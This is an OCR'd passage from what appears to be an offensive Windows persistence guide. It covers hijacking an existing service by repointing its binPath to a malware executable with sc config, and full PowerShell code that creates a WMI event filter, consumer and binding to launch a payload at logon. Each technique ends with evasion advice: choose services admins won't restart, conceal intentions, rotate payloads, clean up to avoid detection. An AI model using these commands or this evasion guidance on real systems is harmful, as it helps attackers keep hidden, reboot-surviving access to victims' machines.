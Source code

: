 Modifying Existing Services:

    Description: Hijack an existing service by changing its executable path to point to malicious code.
    Tools: sc.exe, PowerShell, reg.exe.
    Example:

    shell

        sc config "ServiceName" binPath= "C:\path\to\malware.exe"

        Recommendations:
            Choose a service that is unlikely to be manually restarted by administrators.
            Ensure that the original service functionality is not interrupted to avoid drawing attention.

D. WMI Event Subscription

Windows Management Instrumentation (WMI) provides a powerful interface for managing data and operations on Windows systems. WMI Event Subscriptions can be abused to trigger actions in response to specific system events, such as user logon or system startup.
Techniques and Tools:

    Creating a WMI Event Subscription:
        Description: Set up an event subscription that triggers a malicious payload when a specific event occurs (e.g., user logon).
        Tools: PowerShell, wmic.exe.
        Example (Using PowerShell):

        powershell

        $Filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
          Name = "LogonTrigger"
          EventNamespace = "root\cimv2"
          Query = "SELECT * FROM Win32_LogonSession"
          QueryLanguage = "WQL"
        }

        $Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
          Name = "LogonConsumer"
          CommandLineTemplate = "C:\path\to\malware.exe"
        }

        Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
          Filter = $Filter
          Consumer = $Consumer
        }

        Recommendations:
            WMI Event Subscriptions are difficult to detect but can be identified by advanced monitoring solutions.
            Use descriptive names and conceal your intentions to avoid detection.

    Persistence through WMI Permanent Event Subscriptions:
        Description: Unlike temporary subscriptions, permanent subscriptions will survive system reboots and logoffs, making them a reliable persistence method.
        Tools: wbemtest.exe, PowerShell.
        Example:
            Configure a permanent WMI event subscription using PowerShell (as shown above).
        Recommendations:
            Ensure proper cleanup after operations to avoid detection.
            Rotate payloads periodically to adapt to evolving defense mechanisms.
